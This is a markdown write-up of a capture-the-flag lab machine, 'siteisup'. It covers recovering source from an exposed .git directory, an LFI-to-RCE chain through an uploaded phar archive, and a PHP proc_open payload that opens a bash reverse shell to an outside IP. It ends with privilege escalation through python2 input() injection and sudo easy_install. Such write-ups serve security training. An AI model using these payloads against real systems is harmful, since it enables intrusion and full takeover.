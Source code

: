 # Take Away
- When seeing a subdirectory related to `development` always check if there is a `.git` directory publicly accessible.
	- Use `git checkout .` at `.git`'s parent directory to recover all artifacts since last commit.
	- Use `git log -p` at `.git`'s parent directory to view all commit history along with changes made.
- `RCE`:
	- `LFI2RCE via phpinfo()` 
	- `LFI2RCE via php filters`
		- `filter chains`
		- `data:\\`
		- `File Upload` + (`phar:\\` or `zip:\\`)
# Metadata
- There is a `.git` repo from the URL `http://10.10.11.177/dev/.git`. After downloading the `git` repo and running `git checkout .` and `git log -p`, one can identify a virtual host `dev.siteisup.htb` which can only be accessed by including the header `Special-Dev: only4dev` within the request.![[Pasted image 20240227150136.png]]
- Upon reviewing the extracted source code, we can see there is an `LFI` at `dev.siteisup.htb` and the `checker.php`  included by default allows us to upload files.
	- ![[Pasted image 20240227205742.png]]
	- ![[Pasted image 20240227205904.png]]
	- One thing to notice that is lots of common extensions are black-listed. However, we can still leverage `PHP Archive` and `phar://` php wrapper.
# Exploitation
- Set up a php payload which contains `<?php phpinfo();?>` and archive it with `zip -r code.phar code.php`. After uploading `code.phar`, navigate to `http://dev.siteisup.htb/?page=phar://uploads/4bfa715ed07a2674b3173da43cab6a64/code.phar/code` to trigger the `RCE`.![[Pasted image 20240227212624.png]]
	- `4bfa715ed07a2674b3173da43cab6a64` is a temporary folder that is created for each upload.
	- `code` is used instead of `code.php` is because `index.php` always appends `.php`.
	- From the `phpinfo()`'s output, one can see that lots of dangerous functions are disable, the only one left is `proc_open` which can be identified by `dfunc-bypasser`.![[Pasted image 20240227213602.png]]
		- https://github.com/teambi0s/dfunc-bypasser
- Set up a php payload containing the following code:
	```php
	<?php  
	$descriptorspec = array(  
	0 => array("pipe", "r"),
	1 => array("pipe", "w"),
	2 => array("file", "/tmp/error-output.txt", "a")
	);  
	$command = "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.23/443 0>&1'";
	$process = proc_open(command, $descriptorspec, $pipes);  
	?>
	```
	- Follow the same step to archive, upload, and trigger `RCE` to receive a reverse shell as `www-data`.
# PrivEsc
- `linpeas` will identify a executable called `siteisup` at `/home/developer/dev/` with `suid` that we can run.![[Pasted image 20240227215840.png]]
	- Under the same directory, there is a python script with similar name called `siteisup_test.py`. Upon reviewing the code, one can identify it is written in `python2` and using `input()` which is vulnerable to command injection.
		- https://medium.com/@abdelazimmohmmed/python-input-vulnerability-30b0bfea22c9
- Running `strings siteisup` will identify it actually calls the python script above, hence when prompted, we can enter `__import__("os").system("bash -i")` to get a shell as user `developer`.
- A quick enumeration with `sudo -l` can identify `developer` can run `/usr/local/bin/easy_install` at `root` without any password.![[Pasted image 20240227221026.png]]
	- Run following code to abusing `sudo` privilege to get a shell as `root`.
		```bash
		TF=$(mktemp -d)
		echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
		sudo easy_install $TF
		```